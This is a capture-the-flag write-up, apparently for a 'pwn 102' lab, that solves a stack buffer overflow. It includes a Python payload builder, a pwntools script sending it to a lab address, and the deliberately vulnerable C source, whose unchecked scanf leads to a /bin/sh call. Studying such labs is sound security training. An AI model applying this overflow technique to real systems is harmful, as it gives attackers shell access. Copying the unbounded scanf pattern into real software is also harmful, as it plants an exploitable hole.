




# Challenge 2





test input - 
`$ "A" * 90 + string.ascii_lowercase + string.ascii_uppercase`
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`

With this we end up with `rbp-0x4 == 0x76757473` aka "vuts" (coming from "stuv")
putting our actual buffer size at 108 characters! (`0x70 - 0x4`)


We can pass null-bytes `\x00` cause scanf doesnt seem to read strings ending at that but instead until a newline happens
## Payload

```python
arg_a = [0xc0, 0xff, 0x33]
arg_b = [0xc0, 0xd3]

BUFFSIZE = 0x70 - 0x4 - 0x4
BUFFER = "A" * BUFFSIZE
NOP = 0x00.to_bytes(1, 'little')

with open("payload.txt", 'wb+') as f:
    f.write(bytes(BUFFER, 'ascii'))

    f.write(0xc0d3.to_bytes(2, 'little'))
    
    f.write(NOP)
    f.write(NOP)

    f.write(0xc0ff33.to_bytes(4, 'little'))

print("Done")

```

Running it - remotely
```python
from pwn import *
from pwnlib.util.packing import p32

r = remote('10.10.193.184', 9002)

WAIT = "Am I right? "

r.recvuntil(WAIT)

with open("payload.txt", 'rb') as f:
    PAYLOAD = f.readline()

print(PAYLOAD)
r.sendline(PAYLOAD)

r.interactive()
```

Local usage example output:



Source;
```c
#include <stdio.h>
#include <stdlib.h>

void setup(){
    setvbuf(stdout,(char *)0x0,2,0);
    setvbuf(stderr,(char *)0x0,2,0);
    setvbuf(stdin,(char *)0x0,2,0);
}

void banner(){
    puts(
"       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐\n"
"        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ \n"
"        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘\n"
"                 pwn 102          \n"
    );
}

void main(){
    setup();
    banner();
    char is_this_right[100];
    int need_what = 0xBADF00D;
    int to_do = 0xFEE1DEAD;

    printf("I need %x to %x\nAm I right? ",need_what,to_do);
    scanf("%s",&is_this_right);

    if (need_what == 0xc0ff33 && to_do == 0xc0d3){
        printf("Yes, I need %x to %x\n",need_what,to_do);
        system("/bin/sh");
    }
    else{
        printf("I'm feeling dead, coz you said I need bad food :(\n");
        exit(1337);
    }
}

```
